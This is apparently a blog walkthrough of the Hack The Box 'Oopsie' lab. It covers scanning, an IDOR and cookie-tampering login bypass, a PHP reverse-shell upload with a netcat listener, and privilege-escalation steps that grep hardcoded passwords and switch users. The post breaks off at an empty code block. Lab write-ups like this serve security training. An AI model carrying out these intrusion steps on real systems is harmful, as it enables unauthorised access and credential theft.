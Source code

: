 ```yaml
---
layout: post
title: 'HTB | Oopsie'
date: 2022-03-06
permalink: /htb/oopsie/
---
```


# [](header-4)Enumeration

The nmap will show us:
{% highlight plain %}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-05 16:47 EST
Nmap scan report for 10.129.111.155
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.95 seconds
{% endhighlight %}

If we search the ip in the Firefox we can access to a webpage:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_3.jpg" weight="100%" />

Now we can set Firefox to listen to **Burp Suite**:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_4.jpg" weight="100%" />

In the Burp Suite app we can see there is a login:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_5.jpg" weight="100%" />

# [](#header-4)Foothold

Now we have access to the login page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_6.jpg" weight="100%" />

We can see we need super admin privilages to get access to the super admin account:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_7.jpg" weight="100%" />

We can see the **id=2**.:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_8.jpg" weight="100%" />

If we change to 1:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_9.jpg" weight="100%" />

Now we can use those credentials to change the cookies:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/htb/starting-point/img/Screenshot_10.jpg" weight="100%" />

We will upload a reverse shell in php and use gobuster to find where it is uploaded:
{% highlight plain %}
$ gobuster dir -u http://10.129.95.191/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php 

/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
{% endhighlight %}

We will open a netcat and execute the reverse shell through the browser:
{% highlight plain %}
$ sudo nc -lvvp 1234
{% endhighlight %}

Now we have access to the system and to the user flag:
{% highlight plain %}
$ cat /home/robert/user.txt
{% endhighlight %}

We can import a python module to get a better shell:
{% highlight plain %}
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}


# [](#header-4)Privilege Escalation

Inside we can search in the Apache server and find the password:
{% highlight plain %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat * | grep pass
        if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
{% endhighlight %}

In the **db.php** file we can get another passwords:
{% highlight plain %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
        <?php
        $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
        ?>
{% endhighlight %}

We can now use that password to access robert user:
{% highlight plain %}
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
Password: M3g4C0rpUs3r!
{% endhighlight %}

With the **id** command we can see that Robert is in the same group as bugtracker.
{% highlight plain %}
robert@oopsie:/$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
{% endhighlight %}

We can now search for the bugtracker group:
{% highlight plain %}
robert@oopsie:/$ find / -group bugtracker
/usr/bin/bugtracker
{% endhighlight %}


{% highlight plain %}

{% endhighlight %}
